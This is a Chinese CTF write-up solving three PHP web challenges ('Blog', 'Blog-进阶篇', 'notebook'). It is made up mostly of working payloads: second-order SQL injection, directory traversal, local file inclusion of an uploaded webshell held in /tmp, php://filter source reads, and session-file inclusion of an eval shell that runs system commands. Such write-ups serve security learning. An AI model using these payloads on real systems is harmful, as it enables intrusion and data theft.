


Blog-进阶篇
二次注入注出admin密码，登录之后发现manager.php文件包含不可用
file_manager_json.php 存在目录遍历
1 | http://1cc70b6f1ddf476b8b45fdd12c9575ac22e92863a9914995.changame.ichunqiu.com/kindeditor/php/file_manager_json.php?path=../../../../../../tmp/ |
解题思路：利用manager.php自包含产生栈溢出，down掉程序，php自启程序，但是写入的$_FILES[‘tmp’]存储在/tmp中没有被删除。
新建selinclude.html
1 | <body> |
上传webshell,manager.php会开始自包含，tmp缓存了上传的文件

文件包含之，注意后缀不能为php，可以替换为phpt
1 | http://1cc70b6f1ddf476b8b45fdd12c9575ac22e92863a9914995.changame.ichunqiu.com/blog_manage/manager.php?module=../../../../../../tmp/phpJifDN5&name=phpt&a=highlight_file(%27../flag.php%27); |
Blog
后台登录界面post存在sql二次注入
这里注入时候发现select会报错，但其实是语法报错，没有猜对列名个数。
1 | title=1&content=ww','asa'),('aaa',(select+database()),'aaa# 数据库名字 |
1 | http://8901415292984cf78e4acca700e91176c71c006e356846dc.changame.ichunqiu.com/blog_manage/manager.php?module=php://filter/read=convert.base64-encode/resource=../flag&name=php |
1 |
|
notebook
题目提供的信息
文件包含点，登录注册点，phpinfo显示限制了open_basedir
脑洞点：session存储的路径正好位于open_basedir里，可以注册shell进行包含
注册
1 | eval($_GET[a]); |
payload
1 | http://9ebfa3b3dab34432a0c20559c4a1d9a43a41844802e04b9c.changame.ichunqiu.com/action.php?module=txt&file=../../../../tmp/SESS/sess_sk52jocvh24j4ikjms18b4i3o7&a=system(%27cat%20flag.php%27); |
